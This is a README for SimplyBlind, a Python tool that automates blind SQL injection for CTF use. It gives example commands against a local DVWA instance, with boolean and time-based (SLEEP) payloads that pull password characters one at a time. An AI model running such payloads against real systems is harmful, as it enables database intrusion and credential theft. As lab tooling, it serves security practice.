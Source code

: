 # SimplyBlind  
A script to extracted characters by exploiting blind SQL injection.

Designed for Capture The Flags (CTF) as I felt it was too troublesome to manual extract each character. This is not meant for illegal use. Please do not run this script on sites you do not have permissions on.

## Quick Start Guide:    
There are 2 "attack" modes:
- Brute: Brute force every character in the table
- Quick: Quick attack narrows down possible CHAR before checking it. Making it faster than brute

Modes are set with `-m <mode>`:  
- sc   Status Code 
- reg   regex  
- redir   redirect    
- to | nto  timeout | not_timeout  

The mode identifies if the injection returned a TRUE or FALSE.

## Examples:
Response Status code
``` shell
python simplyBlind.py quick -p "1' AND BINARY SUBSTR(password, \!I, 1) \!S '\!C' #" -c '{"PHPSESSID":"etc7stehjcs7c4kqaa6p6kit03", "security":"low"}' --get http://localhost/vulnerabilities/sqli_blind/
```
![200](img/200.gif)
``` shell
python simplyBlind.py quick -m sc -s 200 -p "1' AND BINARY SUBSTR(password, \!I, 1) \!S '\!C' #" -c '{"PHPSESSID":"etc7stehjcs7c4kqaa6p6kit03", "security":"low"}' --get http://localhost/vulnerabilities/sqli_blind/
```
![200_2](img/200_2.gif)  

Regex:
``` shell
python simplyBlind.py quick --m reg --regex "User ID exists in the database" -p "2' AND BINARY SUBSTR(password, \!I, 1) \!S '\!C' #" -c '{"PHPSESSID":"etc7stehjcs7c4kqaa6p6kit03", "security":"low"}' --get http://localhost/vulnerabilities/sqli_blind/
```
![regex](img/regex.gif)  

Timeout:
```shell
python simplyBlind.py quick -m to --timeout 0.5 -p "10' AND IF(BINARY SUBSTR(password, \!I, 1) \!S '\!C', SLEEP(0.7), FALSE) #" -c '{"PHPSESSID":"etc7stehjcs7c4kqaa6p6kit03", "security":"low"}' --get http://localhost/vulnerabilities/sqli_blind/
```
![timeout](img/time.gif)


### Common Parameter:
`-p <payload>`   takes in a string to set custom payload. The payload takes in keys that will be replaced with the appropriate value. Keys, !I = increment, !S = symbol, !C = Char. Increments will run from 1 to the end of character in database, or till it's the same value as --limit. The symbol is used to narrow down and determine if the targeted character is the character we want. Character will be the character we are trying to match with.    

`-b <body>`   Takes in a string that sets the custom body. Body takes the key !P that will be replaced with the payload.  

`--get`   Set method to GET. Default is POST.

`-h`   For help menu
